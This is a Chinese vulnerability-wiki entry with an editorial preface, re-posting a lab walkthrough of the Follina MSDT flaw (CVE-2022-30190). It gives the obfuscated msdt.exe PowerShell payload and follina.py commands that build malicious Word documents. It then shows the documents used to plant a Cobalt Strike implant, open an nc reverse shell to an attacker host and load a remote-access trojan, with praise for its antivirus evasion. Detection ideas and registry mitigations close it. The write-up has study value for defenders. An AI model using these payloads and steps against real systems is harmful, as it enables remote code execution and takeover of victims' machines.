# CVE-2022-30190 Microsoft office MSDT 代码执行漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Windows MSDT，经Office文档触发
- 文献类型：Follina历史实验与工具整合
- 版本、权限及部署边界：攻击者模板HTML可达、用户打开文档或特定预览场景；Windows MSDT可调用；Office/Windows具体构建主要截图
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 无用户交互表述与实验把docx放靶机打开不符，应分无宏/打开文档/RTF预览等条件，不能都叫零点击
2. 实际漏洞组件MSDT而Office是触发面；只列Office年份不能代替Windows补丁/版本矩阵
3. 官方payload未给Microsoft原出处，应称公开示例；第三方Office下载站不可当官方发行源
4. 两PoC工具及自改载荷仅截图，缺固定提交/HTTP内容；doc改zip只适用于实际OOXML容器不适用于所有传统DOC
5. 注册表删除/恢复是历史临时缓解且影响诊断功能，不等官方安全更新，需补首修KB/公告
6. 后渗透CS/远控演示占主体，无法新增漏洞真实性证据；大灰狼版本失败与免杀宣传应移附录或删
7. 单IP不充分归因攻击者，文称溯源反制不应当成可靠证据；保留原研究工具出处和失败经历

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/0fD356HZa4R-PP1beMtknw>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<https://otp.landian.vip/zh-cn/download.html`>
- 原文参考链接（未重新核验）：<https://github.com/chvancooten/follina.py`>
- 原文参考链接（未重新核验）：<https://github.com/JohnHammond/msdt-follina`>
- 原文参考链接（未重新核验）：<https://blog.csdn.net/weixin_45329947/article/details/125089243>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/0fD356HZa4R-PP1beMtknw)

获网安教程

免费 & 进群

  


  

本文由掌控安全学院 - zhang3 投稿

漏洞概述
----

该漏洞首次发现在 2022 年 5 月 27 日，由白俄罗斯的一个 IP 地址上传。恶意文档从 Word 远程模板功能从远程 Web 服务器检索 HTML 文件，通过 ms-msdt MSProtocol URI 方法来执行恶意 PowerShell 代码。感染过程利用 Windows 程序 msdt.exe，该程序用于运行各种 Windows 疑难解答程序包。此工具的恶意文档无需用户交互即可调用它。导致在宏被禁用的情况下，恶意文档依旧可以使用 `ms-msdt` URI 执行任意 PowerShell 代码。

影响版本
----

目前已知影响的版本为：

*   office 2021 Lts
    
*   office 2019
    
*   office 2016
    
*   Office 2013
    
*   Office ProPlus
    
*   Office 365
    

漏洞复现

#### 官方 payload

```
msdt.exe /id PCWDiagnostic /skip force /param "IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'Unicode.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'YwBhAGwAYwA='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe"

```

在 cmd 中运行即可弹出计算器：  


#### 环境部署

office 下载地址：  
`https://otp.landian.vip/zh-cn/download.html`  
因为已经部署好了，简单截图说明一下：  
  
windows 环境用了：  


#### 环境说明：

攻击机 ip：192.168.84.205  
目标靶机 ip：192.168.84.185

#### 使用 poc1：

下载地址：  
`https://github.com/chvancooten/follina.py`  
在攻击机执行：  
`python3 .\follina.py -t docx -m binary -b \windows\system32\calc.exe -u 192.168.84.205`  
生成恶意 docx 文档：  
  
将 clickme.docx 放在靶机打开：  
  
这里远程加载恶意文件，生活中遇到这种情况可以警惕了。  
程序错误诊断，然后弹出计算器：  



攻击机可以看到远程加载请求：  



复现成功。  
我们肯定不满足于弹出计算器，如何深度利用获取权限呢？

#### 使用 poc2

poc1 的命令执行没看懂。  
下载地址：  
`https://github.com/JohnHammond/msdt-follina`

#### CS 上线

在 cs 上生成木马，这个不用多说。  
创建 pocexe 文件夹，将 nc，cs 木马放进去，并在该目录下开启简单的 http.server 服务：  
  
开启服务：  
`python -m http.server 8080`  
  
改 poc（follina.py）文件下载路径：  
生成恶意文档：  
`python follina.py -i 192.168.84.205 -p 8000 -r 5555 #-r为反弹shell的端口，这里暂时用不到`  
将生成的 follina.doc 放在靶机打开：  
看到 cs 上线：  
查看进程：  
文件存在：

  

#### nc 反弹 shell：

改 poc 配置：  
执行命令：  
`python follina.py -i 192.168.84.205 -p 8000 -r 5555 #这里用到了 -r 反弹shell`  
将生成得 doc 文档放在靶机执行：  
反弹 shell 成功：  
看到 nc 运行：

  

#### 大灰狼远控

用了 7.5 的版本，9.5 的版本在虚拟机运行报错，大半天都没解决。  
生成木马：  


系统设置，配置监听端口：

  
然后与上面的两种方式一样，加载大灰狼木马  
目标机运行：  
上线：  
免杀做好，还是比较强大的：

  

#### 简单分析

将 doc 文件后缀改为 zip：  


解压：

  
可以根据这个 ip 溯源反制。  
检测的思路：

```
从cmd/msedge/office这些进程诞生的msdt.exe进程是可疑的。
msdt.exe里参数带有/../../xxxx/.exe，恶意payload。 直接检测这个也是可以的。

```

修复建议
----

以管理员身份运行命令提示符，执行以下两条命令：

```
reg export HKEY_CLASSES_ROOT\ms-msdt filename
reg delete HKEY_CLASSES_ROOT\ms-msdt /f

```

撤消解决方法：

```
reg import filename

```

总结
--

对大佬们的文章进行了资源整合。这里仅作线下学习，如有违法行为，与本人无关。

参考文章
----

https://blog.csdn.net/weixin_45329947/article/details/125089243  
https://www.cnblogs.com/bonelee/p/16337291.html

申明：本公众号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，

所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法.

  

**没看够~？欢迎关注！**

**分享本文到朋友圈，可以凭截图找老师领取**

上千**教程 + 工具 + 交流群 + 靶场账号**哦


 **分享后扫码加我！**

  

**回顾往期内容**

[Xray 挂机刷漏洞](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247504665&idx=1&sn=eb88ca9711e95ee8851eb47959ff8a61&chksm=fa6baa68cd1c237e755037f35c6f74b3c09c92fd2373d9c07f98697ea723797b73009e872014&scene=21#wechat_redirect)  

[零基础学黑客，该怎么学？](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487576&idx=1&sn=3852f2221f6d1a492b94939f5f398034&chksm=fa686929cd1fe03fcb6d14a5a9d86c2ed750b3617bd55ad73134bd6d1397cc3ccf4a1b822bd4&scene=21#wechat_redirect)

[网络安全人员必考的几本证书！](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247520349&idx=1&sn=41b1bcd357e4178ba478e164ae531626&chksm=fa6be92ccd1c603af2d9100348600db5ed5a2284e82fd2b370e00b1138731b3cac5f83a3a542&scene=21#wechat_redirect)  

[文库｜内网神器 cs4.0 使用说明书](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247519540&idx=1&sn=e8246a12895a32b4fc2909a0874faac2&chksm=fa6bf445cd1c7d53a207200289fe15a8518cd1eb0cc18535222ea01ac51c3e22706f63f20251&scene=21#wechat_redirect)  

[代码审计 | 这个 CNVD 证书拿的有点轻松](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247503150&idx=1&sn=189d061e1f7c14812e491b6b7c49b202&chksm=fa6bb45fcd1c3d490cdfa59326801ecb383b1bf9586f51305ad5add9dec163e78af58a9874d2&scene=21#wechat_redirect)

[【精选】SRC 快速入门 + 上分小秘籍 + 实战指南](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247512593&idx=1&sn=24c8e51745added4f81aa1e337fc8a1a&chksm=fa6bcb60cd1c4276d9d21ebaa7cb4c0c8c562e54fe8742c87e62343c00a1283c9eb3ea1c67dc&scene=21#wechat_redirect)

 [代理池工具撰写 | 只有无尽的跳转，没有封禁的 IP！](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247503462&idx=1&sn=0b696f0cabab0a046385599a1683dfb2&chksm=fa6bb717cd1c3e01afc0d6126ea141bb9a39bf3b4123462528d37fb00f74ea525b83e948bc80&scene=21#wechat_redirect)
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


点赞 + 在看支持一下吧~ 感谢看官老爷~ 

你的点赞是我更新的动力

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
